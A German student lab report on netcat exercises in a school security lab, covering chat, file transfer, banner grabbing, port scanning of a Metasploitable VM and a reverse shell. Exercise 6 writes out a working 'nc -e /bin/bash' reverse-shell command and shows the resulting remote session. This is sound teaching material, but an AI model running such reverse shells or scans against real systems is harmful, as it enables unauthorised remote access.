


# Arbeitsbericht – Reverse Shells Übungen
 
**Name:** Aldin Mukic  
**Datum:** 13.04.2026  
**Fach:** ITSE Labor  
**Klasse:** 4AHITS  
**Aufgabe:** [Reverse Shells Übungen](https://www.franzmatejka.at/htl/doc/ITSI_4/lab/12_reverse_shell_ue.html)

---

## Inhaltsverzeichnis

1. [Netcat Chat](#1-übung-netcat-chat)
   - [Aufgabenstellung](#aufgabenstellung)
   - [Lösung](#lösung)
2. [Netcat Data Send](#2-übung-netcat-data-send)
   - [Aufgabenstellung](#aufgabenstellung-1)
   - [Lösung](#lösung-1)
3. [Netcat Banner Grabbing](#3-übung-netcat-banner-grabbing)
   - [Aufgabenstellung](#aufgabenstellung-2)
   - [Lösung](#lösung-2)
   - [Weitere Webseiten testen](#weitere-webseiten-testen)
   - [HTL Braunau](#htl-braunau)
4. [Netcat Banner Grabbing II](#4-übung-netcat-banner-grabbing-ii)
   - [Aufgabenstellung](#aufgabenstellung-3)
   - [Lösung](#lösung-3)
5. [Netcat Port Scanning](#5-übung-netcat-port-scanning)
   - [Aufgabenstellung](#aufgabenstellung-4)
   - [Lösung](#lösung-4)
6. [Netcat Reverse Shell](#6-übung-netcat-reverse-shell)
   - [Aufgabenstellung](#aufgabenstellung-5)
   - [Lösung](#lösung-5)
   - [Warum heißt das „Reverse Shell"?](#warum-heißt-das-reverse-shell)
   - [Was ist der Vorteil?](#was-ist-der-vorteil)
   - [Wer verwendet das und wann?](#wer-verwendet-das-und-wann)
---

Metasploitable IP: 192.168.7.51  
Kali Linux IP: 192.168.7.52  

---

# Reverse Shells Übungen

## 1 Übung (netcat chat)

### Aufgabenstellung

Netcat verwenden um einen bidirektionalen Chat zwischen 2 verschiedenen Rechnern aufzubauen.

### Lösung

Zuerst hab ich auf dem Kali Linux Rechner einen Listener gestartet, der auf Port 4444 wartet:

```bash
nc -lvp 4444
```

Dann hab ich mich vom Metasploitable Rechner aus verbunden:

```bash
nc 192.168.7.52 4444
```

Sobald die Verbindung steht, kann man auf beiden Seiten Nachrichten eintippen und sie kommen auf der anderen Seite an, es funktioniert also wie ein einfacher Chat. Mit `Ctrl+C` wird die Verbindung wieder getrennt.

**Screenshot:**  



---

## 2 Übung (netcat data send)

### Aufgabenstellung

Den Inhalt einer lokalen Textdatei per netcat an einen anderen Schüler (anderen Rechner) übertragen. Die Datei soll am Zielsystem gespeichert werden.

### Lösung

Auf dem Empfänger-Rechner (Kali-Linux) hab ich zuerst einen Listener gestartet, der alles was reinkommt direkt in eine Datei schreibt:

```bash
nc -lvp 4444 > empfangen.txt
```

Auf Anes seinen Kali Linux Rechner hat er dann die Datei rübergeschickt:

```bash
nc 192.168.7.51 4444 < meine_datei.txt
```

Die Datei `empfangen.txt` auf dem Zielrechner hat dann den gleichen Inhalt wie `meine_datei.txt`.

```bash
┌──(kali㉿kali)-[~]
└─$ cat empfangen.txt 
Hallihallo
```

---

## 3 Übung (netcat banner grabbing)

### Aufgabenstellung

Mit netcat auf Port 80 eines Webservers verbinden, manuell eine HTTP-Anfrage senden und die Antwort 
analysieren – vor allem die `Server:`-Zeile. Danach verschiedene Webseiten testen und schauen welche 
Webserver die verwenden.

### Lösung

Verbindung zum Metasploitable Server herstellen und HTTP-Anfrage senden:

```bash
nc 192.168.7.51 80
HEAD / HTTP/1.0

```

**Antwort:**

```
HTTP/1.1 200 OK
Date: Mon, 09 Mar 2026 12:22:16 GMT
Server: Apache/2.2.8 (Ubuntu) DAV/2
X-Powered-By: PHP/5.2.4-2ubuntu5.10
Connection: close
Content-Type: text/html
```

Die wichtigste Zeile ist `Server: Apache/2.2.8 (Ubuntu) DAV/2` – Metasploitable läuft auf einem 
extrem veralteten Apache aus 2008, der absichtlich voller Sicherheitslücken ist. Auch PHP 5.2.4 
ist völlig veraltet und längst nicht mehr supported.

---

### Weitere Webseiten testen

Die Schul-Firewall blockiert die meisten externen Verbindungen, bei orf.at hat es aber geklappt.
Der Request war diesmal syntaktisch korrekt, trotzdem kam ein `400 Bad Request` zurück – 
wahrscheinlich weil orf.at kein HTTP/1.0 mehr akzeptiert.

```bash
nc orf.at 80
HEAD / HTTP/1.0

```

**Antwort:**

```
HTTP/1.1 400 Bad Request
Date: Mon, 13 Apr 2026 10:20:39 GMT
Server: Apache
Content-Length: 226
Connection: close
Content-Type: text/html; charset=iso-8859-1
```

Auch wenn der Request abgelehnt wurde, sieht man in der Antwort dass orf.at **Apache** verwendet.
Die Versionsangabe wird aber absichtlich weggelassen – das ist eine gängige Sicherheitsmaßnahme 
damit Angreifer keine gezielten Exploits für eine bestimmte Apache-Version ausführen können.

| Webseite | Server | Anmerkung |
|---|---|---|
| 192.168.7.51 (Metasploitable) | Apache/2.2.8 (Ubuntu) DAV/2 | Sehr alt, absichtlich unsicher |
| orf.at | Apache | Version absichtlich versteckt |
| restliche externe Seiten | – | Durch Schul-Firewall blockiert |

---

### HTL Braunau

Da `nc` durch die Firewall blockiert wurde, hab ich stattdessen `curl` verwendet:

```bash
curl -I http://www.htl-braunau.at
```

**Antwort:**

```
HTTP/1.1 301 Moved Permanently
Server: nginx
Date: Mon, 13 Apr 2026 10:24:18 GMT
Content-Type: text/html
Content-Length: 162
Connection: keep-alive
Location: https://htl-braunau.at/
```

Die HTL Braunau verwendet **nginx** als Webserver. Außerdem sieht man dass HTTP automatisch 
auf HTTPS weitergeleitet wird (`301 Moved Permanently` → `https://htl-braunau.at/`) – 
das ist heutzutage Standard und gut so, weil unverschlüsseltes HTTP eigentlich nichts mehr 
verloren hat.

---

## 4 Übung (netcat banner grabbing II)

### Aufgabenstellung

Das Kommando aus der vorherigen Übung so erweitern, dass die HTTP-Anfrage nicht mehr manuell
über stdin eingegeben werden muss, sondern per pipe `|` an `nc` übergeben wird.

### Lösung

Statt die Anfrage manuell einzutippen kann man `printf` verwenden um den Request direkt
per pipe weiterzugeben. Wichtig dabei ist das `\r\n` – im HTTP-Protokoll ist die Leerzeile
als CRLF definiert, also Carriage Return (`\r`) + Line Feed (`\n`). Mit `echo` alleine
würde das nicht funktionieren, deswegen nimmt man `printf`.

```bash
printf "HEAD / HTTP/1.0\r\n\r\n" | nc 192.168.7.51 80
```

**Antwort:**

```
HTTP/1.1 200 OK
Date: Mon, 09 Mar 2026 12:22:16 GMT
Server: Apache/2.2.8 (Ubuntu) DAV/2
X-Powered-By: PHP/5.2.4-2ubuntu5.10
Connection: close
Content-Type: text/html
```

Das Ergebnis ist das gleiche wie vorher, nur diesmal ohne manuelle Eingabe – praktischer
wenn man z.B. mehrere Server automatisiert abfragen will.


---

## 5 Übung (netcat port scanning)

### Aufgabenstellung

Mit netcat im Scanning-Modus (`-z`) feststellen welche Ports auf Metasploitable offen sind
(Portbereich 1–1000). Danach mit `nc` zu offenen Ports verbinden und Banner Grabbing machen.

### Lösung

```bash
nc -zv -w 1 192.168.7.51 1-1000
```

- `-z` → Scanning-Modus, sendet keine Daten
- `-v` → verbose, zeigt welche Ports offen sind
- `-w 1` → Timeout von 1 Sekunde pro Port

**Ergebnis Port Scan:**

```
┌──(kali㉿kali)-[~]
└─$ nc -zv -w 1 192.168.7.51 1-1000
192.168.7.51: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.7.51] 514 (shell) open
(UNKNOWN) [192.168.7.51] 513 (login) open
(UNKNOWN) [192.168.7.51] 512 (exec) open
(UNKNOWN) [192.168.7.51] 445 (microsoft-ds) open
(UNKNOWN) [192.168.7.51] 139 (netbios-ssn) open
(UNKNOWN) [192.168.7.51] 111 (sunrpc) open
(UNKNOWN) [192.168.7.51] 80 (http) open
(UNKNOWN) [192.168.7.51] 53 (domain) open
(UNKNOWN) [192.168.7.51] 25 (smtp) open
(UNKNOWN) [192.168.7.51] 23 (telnet) open
(UNKNOWN) [192.168.7.51] 22 (ssh) open
(UNKNOWN) [192.168.7.51] 21 (ftp) open
```


| Port | Dienst | Beschreibung |
|---|---|---|
| 21 | FTP | Dateiübertragung, komplett unverschlüsselt |
| 22 | SSH | Verschlüsselte Remote-Shell |
| 23 | Telnet | Remote-Shell, aber unverschlüsselt – uralt und unsicher |
| 25 | SMTP | E-Mails versenden |
| 53 | DNS | Namensauflösung (Domain → IP) |
| 80 | HTTP | Webserver |
| 111 | SunRPC | Remote Procedure Call, wird z.B. von NFS gebraucht |
| 139 | NetBIOS | Windows Netzwerk / Samba Filesharing |
| 445 | SMB | Windows Filesharing (neuere Version, direkt über TCP) |
| 512 | rexec | Remote Execution – führt Befehle auf dem Zielsystem aus |
| 513 | rlogin | Remote Login, Vorläufer von SSH, keine Verschlüsselung |
| 514 | rsh | Remote Shell, ebenfalls unverschlüsselt |

**Banner Grabbing bei offenen Ports:**

```bash
nc 192.168.7.51 21   # FTP
nc 192.168.7.51 22   # SSH
nc 192.168.7.51 23   # Telnet
```

```
220 (vsFTPd 2.3.4)
SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1
��▒�� ��#��'
```

FTP meldet sich sofort mit der Version `vsFTPd 2.3.4`, SSH zeigt `OpenSSH 4.7p1` – beides
uralt und voller bekannter Lücken. Telnet schickt nur unlesbaren Binärmüll weil es versucht
die Terminal-Einstellungen auszuhandeln, was netcat natürlich nicht versteht.

---

## 6 Übung (netcat reverse shell)

### Aufgabenstellung

Das folgende Kommando analysieren und dokumentieren:

```bash
nc -e /bin/bash 10.20.30.40 4242
```

Außerdem: passendes Gegenstück (Listener) auf einem anderen System starten und recherchieren
warum das eine „Reverse Shell" heißt und wann sie eingesetzt wird.

### Lösung

**Kommando erklärt:**

- `nc` → netcat
- `-e /bin/bash` → nach dem Verbinden wird `/bin/bash` ausgeführt und dessen Ein-/Ausgabe
  über die Netzwerkverbindung weitergeleitet
- `10.20.30.40` → IP des Angreifers (Listener)
- `4242` → Port auf dem der Listener wartet

**Listener auf dem Angreifer-Rechner (Kali-Aldin):**

```bash
nc -lvp 4242
```

**Auf dem Zielrechner (Anes):**

```bash
nc -e /bin/bash 192.168.7.52 4242
```


**Beweis:**  

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4242             
listening on [any] 4242 ...
192.168.8.52: inverse host lookup failed: Unknown host
connect to [192.168.7.52] from (UNKNOWN) [192.168.8.52] 49558
hostname
kali
whoami
kali
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:36:b7:db brd ff:ff:ff:ff:ff:ff
    inet 192.168.8.52/24 brd 192.168.8.255 scope global dynamic noprefixroute eth0
       valid_lft 169206sec preferred_lft 169206sec
    inet6 fe80::41b9:11e0:6860:6c8c/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```
---

### Warum heißt das „Reverse Shell"?

Bei einer normalen Shell verbindet sich der Angreifer aktiv zum Ziel. Bei einer
**Reverse Shell** ist es umgekehrt – das **Ziel verbindet sich selbst zum Angreifer**.
Daher der Name „Reverse".

### Was ist der Vorteil?

Der große Vorteil ist dass **Firewalls meistens ausgehende Verbindungen erlauben**,
aber eingehende blockieren. Wenn also ein Angreifer direkt auf Port 4444 des Opfers
zugreifen will, blockt die Firewall das wahrscheinlich. Aber wenn das Opfer-System
selbst eine Verbindung nach außen aufbaut, lässt die Firewall das oft durch.

### Wer verwendet das und wann?

- **Pentester** – bei autorisierten Sicherheitstests um zu zeigen dass ein System
  kompromittierbar ist
- **Angreifer** – nach dem Ausführen von Malware oder dem Ausnutzen einer Schwachstelle
  um dauerhaften Zugriff auf ein System zu bekommen, auch wenn es hinter einer Firewall ist

  ---